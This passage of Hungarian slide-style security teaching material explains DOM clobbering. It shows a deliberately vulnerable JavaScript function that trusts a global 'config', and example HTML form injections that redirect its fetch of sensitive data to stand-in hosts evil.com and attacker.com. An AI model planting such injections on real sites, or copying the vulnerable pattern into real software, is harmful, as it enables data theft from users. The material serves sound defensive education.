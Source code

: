 #### **Hogyan működik?**
A böngészők automatikusan létrehoznak globális változókat bizonyos HTML elemekből:

```html
<!-- Ez létrehoz egy 'myForm' globális változót -->
<form id="myForm">
    <input name="apiUrl" value="https://evil.com">
</form>
```

```javascript
// A JavaScript kód ezt várja:
if (config && config.apiUrl) {
    fetch(config.apiUrl + '/data'); // evil.com-ra megy!
}
```

#### **Érintett HTML elemek:**
- `<form id="name">`
- `<img id="name">`
- `<embed id="name">`
- `<object id="name">`
- Elemek `name` attribútummal

---

## 📊 11. DIA - DOM Clobbering Támadás

### **Gyakorlati Támadás Bemutatása**

#### **Sebezhetős alkalmazás kód:**
```javascript
// Az alkalmazás ezt várja:
const API_CONFIG = {
    apiUrl: 'https://legitimate-api.com'
};

function loadData() {
    // Veszélyes: globális 'config' használata
    if (config && config.apiUrl) {
        fetch(config.apiUrl + '/sensitive-data')
            .then(response => response.json())
            .then(data => displayUserData(data));
    }
}
```

#### **Támadó HTML injection:**
```html
<!-- XSS vagy content injection útján bekerülő HTML -->
<form id="config">
    <input name="apiUrl" value="https://attacker.com">
</form>
```
